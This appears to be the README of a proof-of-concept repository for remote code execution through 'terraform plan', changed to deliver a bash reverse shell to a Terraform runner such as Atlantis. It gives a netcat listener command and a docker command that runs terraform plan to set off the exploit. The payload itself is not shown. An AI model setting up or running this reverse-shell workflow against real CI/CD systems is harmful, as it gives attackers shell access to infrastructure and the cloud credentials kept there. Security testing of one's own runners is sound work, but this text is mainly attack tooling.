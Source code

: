 
# Overview
Src - https://alex.kaskaso.li/post/terraform-plan-rce

But with bash reverse shell, as on terraform runner

# Testing with atlantis locally

## One terminal tab (either locally or on different host)
```bash
nc -vklp  4242
```

## Second terminal tab (either same host or remote host)

```bash
# `--net=host` is only needed if you want to connect to same host, where docker container is running
# Then in exploit, you need to use as remote address `host.docker.internal` as equivalent to `localhost` pointing from container to its host system
# ghcr.io/runatlantis/atlantis@sha256:5cced9af236abd0743018e41fbe1b574a0bb739c0566102628f4c7553945cffc
docker run --net=host -v "$(pwd)":/app -it ghcr.io/runatlantis/atlantis bash -c "cd /app; terraform init; terraform plan"
```


